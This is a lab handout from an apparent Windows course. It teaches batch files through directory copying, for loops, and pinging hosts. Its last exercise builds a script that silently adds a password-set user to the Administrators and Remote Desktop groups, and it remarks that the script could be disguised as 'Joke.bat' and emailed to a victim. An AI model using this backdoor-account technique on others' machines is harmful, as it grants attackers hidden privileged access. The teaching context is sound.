





# Batch Files

**Windows Batch Files**

Change back to your user profile directory and open Notepad to create a batch. Enter

cd \users\yourname

notepad act5.bat

The following commands are to be placed into the *act5.bat* batch file

echo off

md \LabFiles\%USERNAME%

copy \LabFiles\sysinternals\sd* \LabFiles\%USERNAME%

dir \LabFiles\%USERNAME% > myfile1.txt

tree \LabFiles > myfile2.txt

cls

type myfile1.txt

pause

type myfile2.txt

pause

attrib +h \LabFiles\%USERNAME%

echo THE %USERNAME% DIRECTORY IS NOW HIDDEN

pause

dir \LabFiles

tree \LabFiles

attrib -h \LabFiles\%USERNAME%

echo on

Save the file and close notepad

From the command line enter **act5.bat** and observe the execution of the commands

> [!WARNING]
> TODO: Retake this screenshot. The current image still shows legacy course-specific paths and folder names from the original source.

## **Screenshot 7 of the batch files OUTPUT. No errors required for a grade.  If there are errors make sure to fix them.**

## Create a batch file to copy selected files

Change to the sysinternals directory  

**cd \LabFiles\sysinternals**

Open notepad to create a batch file

**notepad act5a.bat**

Variables in a batch file require %%i syntax. Enter the following commands

echo off

cls

echo Begin File Copy

For %%i in (*.hlp *.chm) do @copy %%i \users\yourname\files2

dir \users\yourname\files2

echo on

Save the file and close notepad

From command line enter act5a.bat to run the batch file

Example output below (DO NOT SUBMIT)

Note in the above output that a message was placed on the screen for each successful file copied.     

Edit the batch file to send these messages to NUL so they will not be displayed on screen

**notepad act5a.bat**

Edit the file as shown below

echo off

cls

echo Begin File Copy

For %%i in (*.hlp *.chm) do @copy %%i \users\yourname\files2 > nul

dir \users\yourname\files2

echo on

Save the file and close notepad

From command line enter **act5a.bat** to run the batch file and view the difference

View the files in the files2 directory. Enter

**dir \Users\yourname\files2**

Below is an example of the refined batch program output. (DO NOT SUBMIT)

Switch back to your user profile directory **\users\yourname**

Create a text file listing the two hosts to test

   ** notepad ping.txt**

Enter the following two web sites as two lines in the `ping.txt` file

    1.1.1.1

    8.8.8.8

IMPORTANT: **Do not** include an extra new line after **8.8.8.8**

Create a batch file to ping the two listed hosts and place the results in a text file

**notepad act5b.bat**

Enter the following commands

echo off

for /f %%i in (ping.txt) do ping %%i -n 1 >> ping1.txt

cls

echo ...

echo...

Echo The output shows the IP addresses for the two hosts

echo ...

echo ...

pause

type ping1.txt

echo on

Save the file and close notepad

Note: the `ping -n 1` option specifies that only one ping command is used instead of the normal four pings issued by default by Windows.

## Change the VMware Network Adapter to NAT Mode

In the **Network & Sharing center** set the Ethernet interface to **Obtain an address automatically**

From command line enter **act5b.bat** to run the batch file

Observe the series of commands being executed

> [!WARNING]
> TODO: Retake this screenshot. The current image still shows legacy course-specific hostnames from the original source.

## **Screenshot 8 of the output from act5b.bat pinging the two hosts**

Sign out as your username and sign in as **User**

Open a Command Prompt (Admin)

Change to the \Users directory. Enter

   ** cd \Users**

Enter **dir** to view the list of user home directories

Create a batch file that will add a temporary local user named **BatchAdmin** to the computer and elevate that user's privileges to the Administrators group. Assign the user password as **BatchLab1**. Enter

**notepad act5c.bat**

Enter the following commands to create a new user and make that user a member of the Administrators group and Remote Desktop Users group

echo off

net user BatchAdmin BatchLab1 /add

net localgroup administrators BatchAdmin /add

net localgroup "Remote Desktop Users" BatchAdmin /add

echo on

Save the file and close notepad

From command line enter **act5c.bat** to run the batch file

Verify the new user was created as a member of the Administrators group. Enter

dir

net localgroup administrators

net localgroup "Remote Desktop Users"

> [!WARNING]
> TODO: Retake this screenshot. The current image still shows a legacy course-specific username and password from the original source.

## **Screenshot 9 output of all the groups and act5c.bat in the \users directory.  Must contain no errors for grading.  If any errors make sure to correct them.**

Note this batch file could be named Joke.bat and sent as an email attachment to a user.

If the user runs the batch file a new user is created with remote desktop and administrator privileges

If the new user was named Admin it may appear to most computer owners as a valid system user account

The execution of the batch file did send messages to the screen each time a command was completed successfully. These messages can be prevented from being sent to the screen with the redirect to NUL command

Edit **act5c.bat** to add the redirect to `nul` commands and save as **act5d.bat**

echo off

net user BatchAdmin BatchLab1 /add > nul

REM create the user but do not send a message to the screen

net localgroup administrators BatchAdmin /add > nul

REM add user to administrators group but do not send a message to the screen

net localgroup "Remote Desktop Users" BatchAdmin /add > nul

echo on

Run the **act5d.bat** file and observe the operation of the batch file

The user can be deleted with the following command

**net user BatchAdmin /delete**

   

**Submit all screen captures to the activity drop box**

---
[Prev](05_for-loops-amp-variables.md) | [Home](README.md)
